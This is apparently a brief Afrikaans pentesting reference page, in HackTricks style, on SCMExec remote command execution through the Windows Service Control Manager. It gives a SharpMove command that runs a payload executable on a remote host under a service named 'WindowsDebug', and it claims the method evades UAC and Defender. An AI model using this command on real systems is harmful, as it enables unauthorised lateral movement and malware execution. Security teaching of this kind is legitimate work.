 # DCOM Exec

{{#include ../../banners/hacktricks-training.md}}

## SCM

**SCMExec** is 'n tegniek om op afstand op stelsels opdragte uit te voer deur die Service Control Manager (SCM) te gebruik om 'n diens te skep wat die opdrag uitvoer. Hierdie metode kan sommige sekuriteitsbeheermaatreëls omseil, soos User Account Control (UAC) en Windows Defender.

## Tools

- [**https://github.com/0xthirteen/SharpMove**](https://github.com/0xthirteen/SharpMove):

SharpMove.exe action=scm computername=remote.host.local command="C:\windows\temp\payload.exe" servicename=WindowsDebug amsi=true

{{#include ../../banners/hacktricks-training.md}}
